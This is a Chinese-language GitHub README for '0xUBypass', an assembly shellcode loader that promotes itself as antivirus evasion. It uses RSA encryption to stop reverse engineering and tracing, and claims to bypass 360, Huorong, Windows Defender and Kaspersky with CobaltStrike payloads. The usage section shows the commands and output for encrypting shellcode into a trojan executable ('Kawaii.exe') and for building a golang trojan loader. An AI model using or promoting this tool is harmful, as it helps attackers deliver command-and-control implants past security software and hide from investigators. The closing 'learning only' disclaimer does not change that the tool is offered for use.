 ## 0xUBypass
### Description:
这是一个基于纯汇编语言绕过动/静态检测的Shellcode Loader，也可以直接当做免杀使用，使用了2048位秘钥的RSA进行防止逆向，可以有效避免被溯源，当然，需要携带秘钥作为启动参数

### Bypass
操作系统：Win10 64位
杀毒软件：360全家桶(360安全卫士、360杀毒)，火绒，windows defender，卡巴斯基，更多的暂时没有测试<br>
C2及版本：CobaltStrike 4.4
- [x] 360
![Alt text](README.assets/image.png)
![Alt text](README.assets/image-1.png)
- [x] Windows Defender
![Alt text](README.assets/image-2.png)
- [x] 火绒
![Alt text](README.assets/image-5.png)
![Alt text](README.assets/image-4.png)
- [x] 卡巴斯基
![Alt text](README.assets/image-3.png)

### Usage:
#### 直接使用
首先准备好一段shellcode（RAW编码）保存在aaa.bin（命名随意）中，然后使用UBypass进行加密，如下
```bash
PS D:\Data\fixable\code\WindowsShellcodeInjector\Release> .\WindowsShellcodeInjector.exe .\calc.bin
[*] Generated Private Key => gPT6SIbOa;od,u`vbg/;:kcS;k+=S%@ob]Cz&~\<=
[*] Your Padding Original Shellcode Size is 280
[*] Your Padding Encrypted Shellcode Size is 560
[*] Your Encrypted Shellcode is f30d0f241eafbe062451e23a3ede47419f06cbc36802ea49e23beb1caaa3dc008f4fa95bf85cc18235383bc8593411345e4485af8cd58a52e9500e0d5664760a99d5ef9d0727d70d582563959b016b1c2069a149cdddcd5fc
```

随后会在当前文件夹生成一个Kawaii.exe即为携带了你的shellcode的马子，使用的时候加上私钥即可，如下
```bash
PS D:\Data\fixable\code\WindowsShellcodeInjector\Release> .\Kawaii.exe 'gPT6SIbOa;od,u`vbg/;:kcS;k+=S%@ob]Cz&~\<='
```

#### 使用golang加载DLL
感谢 [A10nggg](https://github.com/A10nggg) 师傅的贡献，现在可以使用golang加载DLL了

使用方法如下

如果你不喜欢默认的C++加载器，你也可以使用golang加载器，毕竟C++的特征过于明显，很容易被杀软检测到，使用方法如下

1. 首先你需要将本项目编译为DLL
2. 使用go编译go_bundle.go生成木马文件

```bash
go run go_bundle.go muma
```
其中muma为生成的木马文件名，可以自定义，具体建议看代码

3. 将生成的木马文件和DLL文件放在同一目录下，然后运行木马文件即可

### 免责声明
本项目仅供学习交流使用，请勿用于非法用途，否则后果自负，与本人无关

本项目不提供任何已经编译好的二进制文件，如果你在网上找到了，请注意可能是被人恶意篡改过的，建议自行编译
